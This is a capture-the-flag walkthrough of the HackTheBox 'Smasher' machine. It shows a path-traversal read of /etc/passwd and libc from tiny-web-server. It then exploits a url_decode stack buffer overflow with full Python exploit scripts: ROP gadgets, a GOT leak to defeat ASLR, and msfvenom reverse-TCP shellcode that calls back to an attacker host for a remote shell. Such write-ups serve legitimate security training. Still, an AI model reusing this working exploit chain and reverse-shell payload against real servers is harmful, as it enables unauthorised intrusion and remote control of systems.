




Smasher HTB 50pts
A friend of mine suggested me this box as a good "inspiration" for a task for our upcomming CTF at BalCCon congress. I was immediately hooked by the idea of setting a web challenge as an entry gate for a binary exploitation challenge. That twist gives it a little bit of 'real world' feeling ( not really), and a better path for libc 'leaking', unlike ususal 'here you go, download libc from here' way.
VM Enumeration
Quick scan with nmap revealed following:
[badarg:~/ctf/hackthebox/box/Smasher]$ nmap -sC -sV 10.10.10.89 Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-01 10:28 CEST Nmap scan report for 10.10.10.89 Host is up (0.039s latency). Not shown: 998 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 a6:23:c5:7b:f1:1f:df:68:25:dd:3a:2b:c5:74:00:46 (RSA) | 256 57:81:a5:46:11:33:27:53:2b:99:29:9a:a8:f3:8e:de (ECDSA) |_ 256 c5:23:c1:7a:96:d6:5b:c0:c4:a5:f8:37:2e:5d:ce:a0 (ED25519) 1111/tcp open lmsocialserver? | fingerprint-strings: | FourOhFourRequest, GenericLines, SIPOptions: | HTTP/1.1 404 Not found | Server: shenfeng tiny-web-server | Content-length: 14 | File not found | GetRequest, HTTPOptions, RTSPRequest: | HTTP/1.1 200 OK | Server: shenfeng tiny-web-server | Content-Type: text/html | <html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table> | <tr><td><a href="index.html">index.html</a></td><td>2018-03-31 00:57</td><td>2.1K</td></tr> |_ </table></body></html> 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : ... Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 124.22 seconds
There are SSH and HTTP servers running on this box. HTTP server name(lmsocialserver?)(Server: shenfeng tiny-web-server) doesn't look familiar. Let's see what it does, and check headers.
[badarg:~/ctf/hackthebox/box/Smasher]$ curl -v http://10.10.10.89:1111/ * Trying 10.10.10.89... * TCP_NODELAY set * Connected to 10.10.10.89 (10.10.10.89) port 1111 (#0) > GET / HTTP/1.1 > Host: 10.10.10.89:1111 > User-Agent: curl/7.54.0 > Accept: */* > < HTTP/1.1 200 OK < Server: shenfeng tiny-web-server < Content-Type: text/html * no chunk, no close, no size. Assume close to signal end < <html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table> <tr><td><a href="index.html">index.html</a></td><td>2018-03-31 00:57</td><td>2.1K</td></tr> * Closing connection 0 </table></body></html>%
Looks like the web server returns a file listing, which shows that there's only one file available in that dir, and it's index.html.
<form method="post" action="index.php"> <div class="box"> <h1>Dashboard</h1> <input type="email" name="email" value="email" onFocus="field_focus(this, 'email');" onblur="field_blur(this, 'email');" class="email" /> <input type="password" name="email" value="email" onFocus="field_focus(this, 'email');" onblur="field_blur(this, 'email');" class="email" /> <center><a href="#"><div class="btn">Login</div></a></center><!-- End Btn --> </div> <!-- End Box --> </form> <p>For security reasons this server will be restarted every 60 seconds!!!</p> <script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script>
Looks like a dead end with a fake login form. Form action posts data to index.php, which doesn't exist on server. So, we have to look somewhere else.
Few minutes of checking around with gobuster gave me interesting insight by hitting points like ..//../etc/, i found this interesting
[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//etc/passwd root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin www:x:1000:1000:www,,,:/home/www:/bin/bash smasher:x:1001:1001:,,,:/home/smasher:/bin/bash
Path Traversal Vulnerability
This is Path Traversal vulnerability in servers code. Nice, but what can we do with it? I'll cut all my failed searches and ideas, in the end i found actual http server code and binary (Yaaay!)
[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//home/www/tiny-web-server/ | sed -e 's/<[^>]*>//g' .git/2018-03-31 00:57[DIR] public_html/2018-03-31 00:57[DIR] tiny.c2018-03-31 00:5713.2K README.md2018-03-31 00:571.0K tiny2018-03-31 00:5744.4K Makefile2018-03-31 00:57175
Downloaded all of them. Great thing is that we have actual source code, which will speed up the whole process. Next i wanted to see, because i knew what my target was, is ASLR on the server enabled, and what can i do about it?
First, i've checked version of the system:
[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//etc/issue Ubuntu 16.04.4 LTS \n \l
After that i tried to read /proc/sys/kernel/randomizevaspace, and for some reason ( permissions) i couldn't read that file. So i assumed the worst, and tried to get libc.so.6 so i can use it later.
wget http://10.10.10.89:1111//lib/x86_64-linux-gnu/libc.so.6
Libc inspection
So, now, what i usually like to do is, identify version of libc, in this case i've had access to /etc/issue so i already know, i procceded futher to get docker container with radare2, ropper, pwndbg and libc-database, and few other tools, up and running on Ubuntu 16.04 x64. Let's start analysing tiny file, which is the binary for web server.
root@--name:/ctf/work$ file tiny tiny: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b872377623aa9e081bc7d72c8dbe882f03bf66b7, not stripped root@--name:/ctf/work$ ldd tiny linux-vdso.so.1 => (0x00007ffc7b9a4000) libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f846ddf0000) /lib64/ld-linux-x86-64.so.2 (0x00007f846e1ba000)
Not stripped, huray.
I've checked strings, as usual, but didn't saw nothing specialy useful. Except maybe this one:
GNU C99 5.4.0 20160609 -mtune=generic -march=x86-64 -g -O2 -std=c99 -fno-stack-protector
NX is disabled, if you are to belive this one -fno-stack-protector, so i checked.
root@--name:/ctf/work# gdb -q tiny Reading symbols from tiny...done. pwndbg> checksec [*] '/ctf/work/tiny' Arch: amd64-64-little RELRO: Partial RELRO Stack: No canary found NX: NX disabled PIE: No PIE (0x400000) RWX: Has RWX segments FORTIFY: Enabled pwndbg>
Yup, looks like only ASLR is enabled.
Buffer Overflow
So let's take a step back, and check on tiny.c source code. If we take a look at our first vuln on this box, which was directory traversal, you can locate line responsive for it in function parserequest()
char* filename = uri; if(uri[0] == '/'){ filename = uri + 1; int length = strlen(filename); if (length == 0){ filename = "."; } else { for (int i = 0; i < length; ++ i) { if (filename[i] == '?') { filename[i] = '\0'; break; } } } } url_decode(filename, req->filename, MAXLINE);
You can see that uri[0] doesn't have any real check for directory lookup
if(uri[0] == '/'){ filename = uri + 1; int length = strlen(filename);
After filename gets sorted here, it is passed to urldecode(), which is a simple little method:
void url_decode(char* src, char* dest, int max) { char *p = src; char code[3] = { 0 }; while(*p && --max) { if(*p == '%') { memcpy(code, ++p, 2); *dest++ = (char)strtoul(code, NULL, 16); p += 2; } else { *dest++ = *p++; } } *dest = '\0'; }
Function does take 3 args a pointer to a source location buffer, a destination location buffer, and a max size to read.
void url_decode(char* src, char* dest, int max)
What's the deal with this? Let's see. This is how function is called from processrequest() function:
url_decode(filename, req->filename, MAXLINE);
filename = is a pointer to buffer defined here:
char buf[MAXLINE], method[MAXLINE], uri[MAXLINE];
So filename is a buffer of MAXLINE size, which is:
#define MAXLINE 1024 /* max length of a line */
That's a first argument, and it's a source argument which get's copied into second argument. That argument is req->filename, which is a buffer inside struct named httprequest:
typedef struct { char filename[512]; off_t offset; /* for support Range */ size_t end; } http_request;
And we can clearly see that buffer filename is 512 bytes long.
char filename[512];
Third argument is number of bytes to copy, which is also set to MAXLINE, 1024 bytes.
#define MAXLINE 1024 /* max length of a line */
So there's our buffer overflow.
Exploitation
Having most of the stuff needed for futher exploitation, let's dive into it. Buffer overflow occures when urldecoder() tries to 'decode' filename sent with a GET request. So our payload will be in:
GET /payloadpayloadpayload
Note: we won't count first slash '/' from GET request in payload length, because it get trimed before processing.

from the picture above we can calculate that our buffer is at:
0x298 - (0x90 - 0x30) = 0x238 Converted to decimal 568
We can test that with and overwrite RIP with B's. Our payload is "A" * 568 + 0x424242424242
Let's run tiny binary in gdb and set breakpoint right after urldecode() ret.
root@--name:/ctf/work# gdb -q tiny Reading symbols from tiny...done. pwndbg> set follow-fork-mode child pwndbg> b *0x000000000040178b Breakpoint 1 at 0x40178b: file tiny.c, line 268. pwndbg> r Starting program: /ctf/work/tiny warning: Error disabling address space randomization: Operation not permitted listen on port 9999, fd is 3
Test POC
Run this simple POC:
root@--name:/ctf/work# cat padding.py import requests import struct import socket padding = "A" * 568 RIP = 0x424242424242 payload = "" payload += padding payload += struct.pack("<Q", RIP) s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(("localhost", 9999)) s.send("GET /{} \n\n".format(payload)) s.close()
As soon as we hit a break point:
► f 0 40178b url_decode+107 f 1 4018af parse_request+287 f 2 401e23 process.part+67 f 3 424242424242 f 4 400fa0 _start f 5 10fd963730 f 6 100007f1ccf0002 f 7 0 Breakpoint *0x000000000040178b pwndbg> c
We can se our 424242424242 on the stack, and continue:
Program received signal SIGSEGV (fault address 0x424242424242)
And as expected:

We have overwritten RIP with our 0x424242424242 bytes.
Futher exploitation plan
Plan is: 1. Find gadget for pop rdi; pop rsi; ret. 2. Return to write@plt to leak read@got address so we can use that address from GOT to calculate base address of libc ( Remmber ASLR is ON). 2. Find gadget to push RSP so we can execute out shellcode from stack. We don't need to overwrite system entry on GOT and return to that because NX is off. 3. Send another payload containing out shellcode, push RSP and check if it gets exeuted
To find gadgets, i've used ropper ( Ropper @ github ), you can use whatever you want. Lets's find out which gadgets can we find inside tiny binary.
root@--name:/ctf/work# ropper --file tiny --search "% ?di; ret" [INFO] Load gadgets from cache [LOAD] loading... 100% [LOAD] removing double gadgets... 100% [INFO] Searching for gadgets: % ?di; ret [INFO] File: tiny 0x00000000004011dd: pop rdi; ret;
In tiny i found only pop RDI; ret. And we need pop RDI; pop RSI; ret. So we have to chain them. Next on the list is pop RSI, and i find one which pops RSI, then pop R15 and returns. That's good enough, since we are gona put some trash in R15 because we don't need it.
root@--name:/ctf/work# ropper --file tiny --search "pop ?si" [INFO] Load gadgets from cache [LOAD] loading... 100% [LOAD] removing double gadgets... 100% [INFO] Searching for gadgets: pop ?si [INFO] File: tiny ..... 0x00000000004011db: pop rsi; pop r15; ret;
Last one, push RSP, which we need for last stage of exploit, we are going to look for inside libc.so.6 which is downloaded from the server, because i couln't find one in tiny binary. Note: we will find offset to it, which needs to be added to libc base address later.
root@--name:/ctf/work# ropper --file libc.so.6 --search "push rsp" [INFO] Load gadgets from cache [LOAD] loading... 100% [LOAD] removing double gadgets... 42% [LOAD] removing double gadgets... 100% [INFO] Searching for gadgets: push rsp [INFO] File: libc.so.6 ...... 0x0000000000023ad1: push rsp; ret; ......
So we have all of them:
# gadgets poprdiret = 0x4011dd # pop rdi; ret poprsiret = 0x4011db # pop rsi; pop r15; ret push_rsp = 0x023ad1 # push rsp; ret
Next, let's find read@got and read offset in libc address and write () address.
We can see address of write@plt if we disassemble process function. There's a call to it:

0x00000000004010e9 <+41>: call 0x400c50 <write@plt>
That's done, now on to read@GOT.
root@--name:/ctf/work# objdump -R tiny | grep read 0000000000603088 R_X86_64_JUMP_SLOT read@GLIBC_2.2.5
And lastly we need read() offset from libc.
root@--name:/ctf/work# readelf -s libc.so.6 | grep read@ .... 891: 00000000000f7250 90 FUNC WEAK DEFAULT 13 read@@GLIBC_2.2.5
Let's write that down, so far we have:
# padding to RIP padding = "A" * 568 # got and plt read_got = 0x603088 # read()@GOT address write_plt = 0x400c50 # write()@PLT address # offsets read_off = 0x0f7250 # read() offset from libc base # gadgets poprdiret = 0x4011dd # pop rdi; ret poprsiret = 0x4011db # pop rsi; pop r15; ret push_rsp = 0x023ad1 # push rsp; ret
Ok, time for first stage. Let's try to leak address of read() and substract readoff (offset) to get libc base address.
import httplib import struct import socket import telnetlib import urllib def execute_payload(payload): s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(("localhost", 9999)) #s.connect(("10.10.10.89", 1111)) s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload))) response = s.recv(4096) s.close() return response # padding to RIP padding = "A" * 568 # got and plt read_got = 0x603088 # read()@GOT address write_plt = 0x400c50 # write()@PLT address # offsets system_off = 0x045390 read_off = 0x0f7250 # read() offset from libc base # gadgets poprdiret = 0x4011dd # pop rdi; ret poprsiret = 0x4011db # pop rsi; pop r15; ret push_rsp = 0x023ad1 # push rsp; ret #### 1 - leak the libc base buf = "" buf += padding buf += struct.pack("<Q", poprdiret) buf += struct.pack("<Q", 0x4) buf += struct.pack("<Q", poprsiret) buf += struct.pack("<Q", read_got) buf += struct.pack("<Q", 0xF) buf += struct.pack("<Q", write_plt) response = execute_payload(buf).split("File not found")[1] read_addr = struct.unpack("<Q", response[:8])[0] print "read() is at", hex(read_addr) libc_addr = read_addr - read_off print "libc base is at", hex(libc_addr)
Fire up GDB again, and rerun the tiny in the same way. Set breakpoint, and hit r.
root@--name:/ctf/work# gdb -q tiny Reading symbols from tiny...done. pwndbg> b *0x000000000040178b Breakpoint 1 at 0x40178b: file tiny.c, line 268. pwndbg> r Starting program: /ctf/work/tiny warning: Error disabling address space randomization: Operation not permitted listen on port 9999, fd is 3
Go open another tab or something and run our script:
root@--name:/ctf/work# python stage1.py read() is at 0x7fa328ae2250 libc base is at 0x7fa3289eb000
Nice, so let's confirm that this indeed works. We are going to look and disassemble 0x7fa328ae2250 which is suposed to be address of read() function.
pwndbg> disassemble 0x7fa328ae2250 Dump of assembler code for function read: 0x00007fa328ae2250 <+0>: cmp DWORD PTR [rip+0x2d24e9],0x0 # 0x7fa328db4740 <__libc_multiple_threads> 0x00007fa328ae2257 <+7>: jne 0x7fa328ae2269 <read+25> 0x00007fa328ae2259 <+0>: mov eax,0x0 ....
And it indeed is. We successfuly leaked address of read, and thus are able to calculate base of the libc ( you can play out, and test this by adding offsets to other functions/calls and check if they match).
Allright, now let's wrap up this. Since we now can tell where push RSP will be, we can use it to execute our shellcode from stack. For sake of simplicity, i'm going to use msfvenom to generate reversetcp shellcode for x64, and use handler to connected back to it.
[badarg:/opt/metasploit-framework/bin]$ ./msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.13.238 LPORT=4444 --bad-chars "\x00" -f python [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload [-] No arch selected, selecting arch: x64 from the payload Found 2 compatible encoders Attempting to encode payload with 1 iterations of generic/none generic/none failed with Encoding failed due to a bad character (index=56, char=0x00) Attempting to encode payload with 1 iterations of x64/xor x64/xor succeeded with size 175 (iteration=0) x64/xor chosen with final size 175 Payload size: 175 bytes Final size of python file: 850 bytes buf = "" buf += "\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05" buf += "\xef\xff\xff\xff\x48\xbb\x6b\xa3\xb0\x9e\x3c\xe7\x62" buf += "\xc7\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4" buf += "\x23\x92\x4f\xf4\x35\xbf\xfb\x71\x7b\xeb\x39\x48\x71" buf += "\xd6\xab\xad\x49\xe2\xea\x2c\x3b\xe8\x67\x8f\xee\x63" buf += "\xc8\xcc\x56\xed\x23\x9e\x3d\xf3\xda\xb7\x64\x7e\x08" buf += "\xc5\x34\xc9\xb1\xc0\x33\xe2\x2a\x42\xab\xdb\x8b\xd6" buf += "\xab\xaf\xdb\xc5\x6b\xb2\xec\x94\x36\xea\x8c\x96\x23" buf += "\x2a\x56\xf4\x2c\xbd\x08\xed\x33\xac\xb5\xc7\x74\x62" buf += "\xa2\xbe\x4e\xea\x4f\x57\x48\xff\x35\xad\x48\xfb\xda" buf += "\x9e\x56\xe2\x2a\x4e\x8c\xeb\x81\x68\x33\xe2\x3b\x9e" buf += "\x34\xeb\x35\x5e\x45\x20\x08\xfb\x33\xc9\xb1\xc1\x33" buf += "\xe2\x3c\x9d\x64\xa6\xf8\x1b\xfc\x9f\x8d\x38\x8d\xa3" buf += "\xb0\x9e\x3c\xe7\x62\xc7"
That will be a shellcode, and let's put together rest of our exploit.
import httplib import struct import socket import telnetlib import urllib url = "http://10.10.10.89:1111/" lurl = "http://localhost:9999/" def execute_payload(payload): s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(("10.10.10.89", 1111)) s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload))) response = s.recv(4096) s.close() return response def exploit(payload): s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #s.connect(("localhost", 9999)) s.connect(("10.10.10.89", 1111)) s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload))) # get a shell # padding to RIP padding = "A" * 568 # got and plt read_got = 0x603088 # read()@GOT address write_plt = 0x400c50 # write()@PLT address # offsets read_off = 0x0f7250 # read() offset from libc base # gadgets poprdiret = 0x4011dd # pop rdi; ret poprsiret = 0x4011db # pop rsi; pop r15; ret push_rsp = 0x023ad1 # push rsp; ret #### 1 - leak the libc base buf = "" buf += padding buf += struct.pack("<Q", poprdiret) buf += struct.pack("<Q", 0x4) buf += struct.pack("<Q", poprsiret) buf += struct.pack("<Q", read_got) buf += struct.pack("<Q", 0xF) buf += struct.pack("<Q", write_plt) response = execute_payload(buf).split("File not found")[1] read_addr = struct.unpack("<Q", response[:8])[0] print "read() is at", hex(read_addr) libc_addr = read_addr - read_off print "libc base is at", hex(libc_addr) #### 2 - Execute shellcode from stack gadget = libc_addr + push_rsp buf = "" buf += padding buf += struct.pack("<Q", gadget) buf += "\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05" buf += "\xef\xff\xff\xff\x48\xbb\xc7\xa4\xa1\x8a\x02\xe7\x6d" buf += "\x1b\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4" buf += "\x8f\x95\x5e\xe0\x0b\xbf\xf4\xad\xd7\xec\x28\x5c\x4f" buf += "\xd6\xa4\x71\xe5\xe5\xfb\x38\x05\xe8\x68\x53\x42\x64" buf += "\xd9\xd8\x68\xed\x2c\x42\x91\xf4\xcb\xa3\x5a\x7e\x07" buf += "\x19\x98\xce\xa0\xd4\x0d\xe2\x25\x9e\x07\xdc\x9a\xc2" buf += "\x95\xaf\xd4\x19\xc7\xb5\xfd\x80\x08\xea\x83\x4a\x8f" buf += "\x2d\x47\xe0\x12\xbd\x07\x31\x9f\xab\xa4\xd3\x4a\x62" buf += "\xad\x62\xe2\xed\x5e\x43\x76\xff\x3a\x71\xe4\xfc\xcb" buf += "\x8a\x68\xe2\x25\x92\x20\xec\x90\x7c\x0d\xe2\x34\x42" buf += "\x98\xec\x24\x4a\x7b\x20\x07\x27\x9f\xce\xa0\xd5\x0d" buf += "\xe2\x33\x41\xc8\xa1\xe9\x0f\xc2\x9f\x82\xe4\x21\xa4" buf += "\xa1\x8a\x02\xe7\x6d\x1b" buf += 'Z' * (1024 - len(buf)) response = exploit(buf)
Before running, remmember to start handler.
msf > use multi/handler msf exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp payload => linux/x64/shell/reverse_tcp msf exploit(multi/handler) > set LHOST 10.10.13.238 LHOST => 10.10.13.238 msf exploit(multi/handler) > run [*] Started reverse TCP handler on 10.10.13.238:4444
And run exploit!
[badarg:~/ctf/hackthebox/box/Smasher]$ python smasher_reverse_tcp.py read() is at 0x7fd2fce03250 libc base is at 0x7fd2fcd0c000
If you check your multi handler, you will see new session
[*] Sending stage (38 bytes) to 10.10.10.89 [*] Command shell session 1 opened (10.10.13.238:4444 -> 10.10.10.89:36424) at 2018-10-01 18:07:20 +0200

Conclusion
That's it. Now tha you have a shell it's time to move onto a second stage, which is fighting this guy
ps aux | grep crackme.py
smasher 714 0.0 0.1 24364 1784 ? S 16:52 0:00 socat TCP-LISTEN:1337,reuseaddr,fork,bind=127.0.0.1 EXEC:/usr/bin/python /home/smasher/crackme.py